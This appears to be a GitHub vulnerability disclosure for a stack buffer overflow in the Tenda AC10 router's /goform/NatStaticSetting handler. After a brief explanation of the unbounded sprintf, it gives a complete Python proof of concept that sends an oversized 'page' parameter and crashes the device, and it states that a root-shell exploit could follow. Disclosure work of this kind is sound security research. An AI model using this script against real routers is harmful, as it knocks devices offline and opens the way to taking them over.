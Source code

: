 # Tenda AC10V15.03.06.23 Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2734.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/form_fast_setting_wifi_set/img/1.png)


## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/fromNatStaticSetting/img/2.png)

/goform/NatStaticSetting, It can be seen that the page is controlled by the user, and will be spliced into the gotopage with sprintf. It is worth noting that there is no size limit to cause stack overflow.

## Poc

```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.1'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x300
p2 = b'page=' + p1

p3 = b"POST /goform/NatStaticSetting" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A; password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

You can see the router crash, and finally we can write an exp to get a root shell
